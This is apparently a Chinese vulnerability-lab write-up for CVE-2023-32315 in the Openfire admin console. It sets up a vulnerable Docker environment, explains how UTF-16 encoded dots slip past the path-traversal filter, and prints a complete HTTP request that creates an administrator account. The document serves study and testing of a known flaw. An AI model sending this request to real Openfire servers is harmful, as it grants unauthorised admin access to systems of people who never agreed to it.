


# Openfire管理后台认证绕过漏洞（CVE-2023-32315）

Openfire 是根据开放源 Apache 许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

参考文档：

- <https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm>
- <https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w>

## 漏洞环境

执行如下命令启动一个4.7.4版本的Openfire:

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:9090`你将会被强制跳转到登录页面。

## 漏洞复现

十多年前，Openfire管理后台中曾被发现一处路径穿越漏洞，CVE-2008-6508。攻击者可以利用`/setup/setup-/../../[page].jsp`来绕过权限校验并访问任意后台页面。

从那以后，Openfire增加了对于路径穿越问题的防护策略，用以抵御这个漏洞。但是因为后来内置的Web服务器的升级，引入了对UTF-16字符支持的非标准URL，而前面的防护策略并没有考虑到这一点。

这样也导致我们可以使用UTF-16字符来绕过路径穿越的防护，再次复活路径穿越漏洞，`/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp`。

我们可以发送如下数据包，利用该路径穿越漏洞创建一个新的管理员：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken


```

虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为`hackme`：



之后我们便可以使用这个账号登录管理后台：


